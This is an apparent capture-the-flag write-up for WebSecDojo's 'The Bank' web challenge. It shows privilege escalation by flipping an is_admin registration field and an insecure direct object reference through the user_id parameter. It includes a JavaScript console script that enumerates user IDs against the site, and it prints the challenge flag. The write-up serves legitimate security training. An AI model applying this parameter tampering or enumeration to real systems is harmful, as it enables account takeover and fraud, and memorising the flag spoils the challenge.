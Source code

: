 # WebSecDojo.com - The Bank
## My first post :)
### Prerequisites
<ul>
  <li>HTML and Javascript experience.</li>
  <li>Basic knowledge of HTTP requests and API endpoints.</li>
  <li>Developer Panel (I recommend using firefox) or similar software that enables sending web requests.</li>
</ul>
### Exploring the website
  After entering the challenge I was in `https://websecdojo.com/thebank/index.php`.<br/>
  Since I didn't have an account I thought it'd be better to attempt to create one so I clicked `Don't have an account? Register here`.
### Trying to register
  First because I know it's a CTF challenge focused on HTTP requests I opened the network tab.<br/>
  Entered fabricated data and submitted the web-form.
  Found a `POST` request to this URL: `https://websecdojo.com/thebank/register.php`.
  The request's had a parameter named `is_admin` the was set to `0`. When changed to `1`, resending the request will result in a `GET` request to the URL: `https://websecdojo.com/thebank/dashboard.php`.
### The dashboard
  Go to `https://websecdojo.com/thebank/dashboard.php` in your browser.
  While the network tab is open try to fill out the form, the request returns failure as response.
  We can see in the request that in the URL there's a parameter named `user_id`.
  Going through the dashboard's HTML I found the function that submits the form.
### Examining the form submission
Examine this simple function:
```js
        function handleTransfer(event) {
            event.preventDefault();
            
            const form = document.getElementById('transferForm');
            const formData = new FormData(form);
            
            // Get user_id from URL or default to 0
            const urlParams = new URLSearchParams(window.location.search);
            const userId = urlParams.get('user_id') || '0';
            
            // Add user_id to formData
            formData.append('user_id', userId);
            
            fetch('api.php?user_id=' + userId, {
                method: 'POST',
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                const messageDiv = document.getElementById('transferMessage');
                if (data.success) {
                    messageDiv.className = 'alert alert-success mt-3';
                    messageDiv.textContent = 'Transfer successful!';
                    form.reset();
                } else {
                    messageDiv.className = 'alert alert-danger mt-3';
                    messageDiv.textContent = data.message || 'Transfer failed. Please try again.';
                }
            })
            .catch(error => {
                const messageDiv = document.getElementById('transferMessage');
                messageDiv.className = 'alert alert-danger mt-3';
                messageDiv.textContent = 'An error occurred. Please try again.';
                console.error('Error:', error);
            });
            
            return false;
        }
        ```
        
Basically, the function checks the URL for parameters, if non found the `user_id` will be set as `0`.
### Trying to switch into a user that has funds
I added `?user_id=0` to the URL resulting in this: `https://websecdojo.com/thebank/dashboard.php?user_id=0`.
Now the user's named `User Bobbetta` instead of `Admin` and yet still has no balance.
Trying to fill out the form again and submitting it results in failure response.
Trying different IDs return the same user.
Assuming the IDs can be enumerated i wrote this script (ChatGPT wrote it for me ;)):
```js
let id = 0;
const maxAttempts = 5000; // adjust as needed
const delay = 200; // ms delay between requests to avoid hammering the server

function checkNextId() {
    if (id > maxAttempts) {
        console.log("Reached maximum attempts.");
        return;
    }

    fetch(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, {
        credentials: 'include' // keep session cookies
    })
    .then(res => res.text())
    .then(html => {
        // Look for the admin HTML marker
        if (html.includes('<span id="username">Admin</span>')) {
            console.log(`🎯 Found Admin at user_id=${id}`);
            console.log(`URL: https://websecdojo.com/thebank/dashboard.php?user_id=${id}`);
            // Optionally open in new tab:
            window.open(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, '_blank');
        } else if (!html.includes('User Bobbetta')) {
            console.log(`✅ Found non-Bobbetta user at id=${id}`);
        } else {
            console.log(`⛔ Skipped id=${id}`);
        }
    })
    .catch(err => {
        console.warn(`Error at id=${id}:`, err);
    })
    .finally(() => {
        id++;
        setTimeout(checkNextId, delay);
    });
}

checkNextId();

```
Pasted it in the console that's in the Developer Panel and found two users with IDs `10` and `11`.

### Switching into user that has funds
I entered this URL: `https://websecdojo.com/thebank/dashboard.php?user_id=10`
Got into a user named `User John Doe` with `$10000`.
Filled out the form with fabricated information.
The website showed failure yet the request returned success.

### Getting the flag
This one took me a while...
Often most people overlook certain parts of HTTP requests. In this Case it was the `Response Headers`.
Looking there you will find the flag header: `x-flag: flag#Th@tWas3asyN0?`

### Conclusions
Examine the request thoroughly, you can use ChatGPT for this if you're lazy.

### Important remarks
I want to thank Avi who created the CTF challnge and gave me the clue to the last part. I overlooked the Response Headers.
Check out his awesome Web CTFs website: https://websecdojo.com/


